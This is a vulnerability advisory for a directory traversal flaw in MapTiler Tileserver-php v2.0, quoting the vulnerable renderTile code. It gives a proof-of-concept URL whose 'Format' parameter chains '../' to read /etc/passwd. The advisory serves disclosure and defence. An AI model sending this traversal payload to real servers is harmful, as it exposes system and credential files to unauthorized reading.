 # CVE-2025-44137
Unauthenticated File Read in MapTiler Tileserver-php v2.0.

## Description
MapTiler Tileserver-php v2.0 is vulnerable to Directory Traversal. The
renderTile function within tileserver.php is responsible for delivering
tiles that are stored as files on the server via web request. Creating
the path to a file allows the insertion of "../" and thus read any file
on the web server. Affected GET parameters are "TileMatrix", "TileRow",
"TileCol" and "Format"

https://github.com/maptiler/tileserver-php/blob/d0fdeaec69688dc500b652a23669d724d7d53df2/tileserver.php#L381-L398
```
      $name = './' . $tileset . '/' . $z . '/' . $x . '/' . $y;
      $mime = 'image/';
      if($ext != null){
        $name .= '.' . $ext;
      }
      if ($fp = @fopen($name, 'rb')) {
        if($ext != null){
          $mime .= $ext;
        }else{
          //detect image type from file
          $mimetypes = ['gif', 'jpeg', 'png'];
          $mime .= $mimetypes[exif_imagetype($name) - 1];
        }
        header('Access-Control-Allow-Origin: *');
        header('Content-Type: ' . $mime);
        header('Content-Length: ' . filesize($name));
        fpassthru($fp);
        die;
```

## PoC

http://localhost/tileserver.php/x/1/1/1?Format=/../../../../../../../../../../../../../../etc/passwd&Request=x&layer=.

![Screenshot 1](image.png)
![Screenshot 2](image-1.png)